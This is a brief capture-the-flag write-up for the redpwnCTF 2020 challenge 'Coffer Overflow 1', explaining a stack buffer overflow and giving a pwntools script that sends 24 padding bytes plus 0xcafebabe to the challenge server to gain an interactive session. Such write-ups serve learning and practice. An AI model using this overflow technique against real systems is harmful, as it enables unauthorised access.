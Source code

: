 # Coffer Overflow 1
Just like `Coffer Overflow 0`, we have to overflow, but this time we have to make the comparison true. `0xcafebabe` is compared to the 4 bytes after the first 24.

```python
from pwn import *

p = remote('2020.redpwnc.tf', 31255)

p.clean(0.2)
p.sendline(b'a' * 24 + p32(0xcafebabe))
p.interactive()
```